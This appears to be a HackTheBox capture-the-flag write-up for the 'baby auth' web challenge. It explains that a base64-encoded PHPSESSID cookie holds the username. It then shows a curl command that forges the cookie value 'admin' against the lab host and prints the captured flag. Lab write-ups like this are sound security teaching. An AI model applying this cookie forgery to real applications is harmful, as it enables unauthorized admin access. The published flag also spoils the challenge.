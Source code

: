 ```yaml
---
title: baby auth
date: 2021-03-07 13:00:00 +0800
categories: [HackTheBox, Challenges (Web)]
tags: ["idor"]
image: /assets/posts/ctf/hackthebox/challenges/web/baby auth/baby auth.png
---
```


# TL;DR

---

> Insecure direct object reference (IDOR)

---

# Exploitation

---

Accessing `http://138.68.129.26:31402/` shows the following web page:

![Landing Page](/assets/posts/ctf/hackthebox/challenges/web/baby auth/landing.png)
_Landing page_

We created user and logged in shows `you are not an admin`.

![Login](/assets/posts/ctf/hackthebox/challenges/web/baby auth/login.png)
_Upon login shows "you are not an admin"_

`PHPSESSID` cookie shows base64 encoded. Decoded it shows the following value:

![Base64](/assets/posts/ctf/hackthebox/challenges/web/baby auth/base64.png)
_Base64 decoded shows {"username":"test"}_

Change the username value to `admin`, we got flag.

![Base64](/assets/posts/ctf/hackthebox/challenges/web/baby auth/flag.png)
_Flag captured_

```terminal
curl -i -s -k -X $'GET'     -H $'Host: 138.68.129.26:31402' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://138.68.129.26:31402/login' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1'     -b $'PHPSESSID=eyJ1c2VybmFtZSI6ImFkbWluIn0%3d'     $'http://138.68.129.26:31402/' | grep HTB
```

Flag: 

> HTB{s3ss10n_1nt3grity_1s_0v3r4tt3d_4nyw4ys}

---